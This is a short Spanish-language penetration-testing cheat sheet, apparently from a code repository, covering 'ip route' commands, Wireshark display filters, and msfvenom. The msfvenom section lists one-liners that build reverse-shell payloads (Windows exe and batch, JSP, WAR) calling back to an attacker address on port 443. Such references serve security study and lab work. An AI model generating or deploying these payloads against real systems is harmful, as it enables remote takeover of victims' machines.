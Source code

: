 
# route

| **Comando**   | 
| --------------|
| **ip route** |
|`ip route add <ip de red a llegar>/<mascara de red en CIDR> via <ip del router> dev <interfaz a usar>`|
|`ip route add 10.10.10.0/24 via 10.10.1.20 dev eth1`|

# wireshark

| **Comando**   | 
| --------------|
| **Filtro por ip** |
|`ip.add == 10.10.10.10`|
|**Filtro por el destino de ip**|
|`ip.dest==10.10.10.9`|
|**Filtro por la ip fuente**|
|`ip.src==10.10.10.8`|
|**Filtrar por un puerto**|
|`tcp.port==25`|

# msfvenom - generar shellcode
| **Comando**   | 
| --------------|
|**listar payloads**|
|`msfvenom -l payloads`|
|**Windows Reverse Shells**|
|`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe`|
|`msfvenom -p cmd/windows/reverse_powershell LHOST=10.10.10.10 LPORT=443 > shell.bat`|
|**Java JSP Meterpreter Reverse TCP**|
|`$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > shell.jsp`|
|**WAR Payload Shells**|
|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war > shell.war`|
